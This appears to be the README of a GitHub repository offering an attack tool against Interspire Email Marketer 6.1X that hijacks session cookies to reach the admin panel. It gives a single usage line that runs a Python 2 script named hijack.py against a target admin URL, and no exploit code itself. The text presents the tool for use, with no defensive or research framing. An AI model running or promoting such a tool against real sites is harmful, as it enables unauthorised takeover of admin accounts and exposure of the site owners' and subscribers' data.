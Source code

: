 # Email-Marketer-Hijacked
Interspire Email Marketer 6.1X Hijacked Session Cookies
Usage :
$ python2 hijack.py https://site.lol/admin/index.php 
